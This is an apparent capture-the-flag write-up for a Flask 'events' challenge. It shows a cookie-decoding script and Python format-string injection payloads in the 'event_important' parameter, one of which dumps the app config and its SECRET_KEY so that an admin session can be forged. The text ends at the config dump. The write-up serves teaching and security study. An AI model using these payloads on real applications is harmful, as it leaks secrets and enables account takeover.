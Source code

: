 
### events

This challenge has some basic functions: register/login, added events(Name or Address), Admin Panel.

Our goal is to login as admin to view the admin panel.

In the beginning, we tried to decrypt the `user` cookie.

The cookie consists of three parts: data, timestamp, signature.

e.g. `Inp4YyI.XPZfEQ.Mr7NJDYuYIF6sf87wTcKCYuBBVc`.

We can use the following script to decrypt data and timestamp:

```python
from itsdangerous import base64_decode

s = "ImFzZCI.XPVouA.bToZpDkYXf5CMWcolC-CWgdaDdU"
data, timestamp,secret = s.split('.')

print(base64_decode(data))
print(int.from_bytes(base64_decode(timestamp),byteorder='big'))
```

But we don't have any secret key, so we can't sign the cookie.

Then I found that someone use username:`asd` and password:`asd` to try some python format string attack:

![](https://github.com/w181496/CTF/raw/master/fbctf2019/events/asd.png)

When I refreshed this page, the addresses of the result changed too.

So I know there is a format string vulnerability in the added event function! Thank you `asd:asd`.

After fuzzing, I found the vulnerability is in the `event_important` argument:

`event_name=a&event_address=a&event_important=__dict__`

The response of this payload is: 

`{'_sa_instance_state': <sqlalchemy.orm.state.InstanceState object at 0x7fb2c5ba2588>, 'fmt': '{0.__dict__}', 'show': '__dict__', 'name': 'a', 'owner_id': 67, 'address': 'a', 'id': 5335}`

OK. Let's try to find some useful information.

After that, I found the config of this flask app:

`event_important=__class__.__init__.__globals__[app].config`

=>

`
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'events_sesh_cookie', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_DATABASE_URI': 'sqlite:///my.db', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}}>
`
